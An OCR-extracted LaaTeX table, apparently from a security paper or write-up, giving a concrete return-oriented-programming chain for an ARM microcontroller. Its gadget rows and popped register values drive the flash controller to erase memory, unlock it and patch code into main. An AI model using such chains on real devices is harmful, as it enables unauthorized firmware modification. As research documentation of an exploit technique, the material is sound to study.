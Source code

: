 \begin{table}[htbp]
  \centering
  \caption{The final ROP design. }
    \begin{tabular}{rrrr}
    \toprule
    Gadget     & Pop into R4 & Pop into PC & Description \\
    \midrule
               & 3030 3030  & 3030 3030  & Fluff \\
               & 3030 3030  & 3030 3030  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Pop \{R4-R5\} \\
    pop \{pc\}   & 7536 0000  &            & Return to A0 \\
    A0         & 0048 0000  & a742 0000  & Erase address \\
    B          & 00d0 0f40  & 7336 0000  & Write erase address \\
    A          & 0200 42a4  & a742 0000  & Erase command \\
    B          & 08d0 0f40  & 7336 0000  & Write erase command \\
    A          & e04b 0000  & a742 0000  & main address \\
    B          & 00d0 0f40  & 7336 0000  & Write main address \\
    A          & 00f1 0100  & a742 0000  & add R0,\#0x1 \\
    B          & 20d1 0f40  & 7336 0000  & Write add \\
    A          & fce7 5555  & a742 0000  & b main \\
    B          & 24d1 0f40  & 7336 0000  & Write b \\
    A          & ffff ffff  & a742 0000  & Clear write buffer \\
    B          & 30d0 0f40  & 7336 0000  & Write clear \\
    A          & 0100 42a4  & a742 0000  & Flash key \\
    B          & 20d0 0f40  & 7336 0000  & Write flash key \\
    A          & 584b 0000  & a742 0000  & Scatter addr \\
    B          & 00d0 0f40  & 7336 0000  & Write scatter addr \\
    A          & 42e0 0000  & a742 0000  & b main \\

\end{tabular}
\end{table}
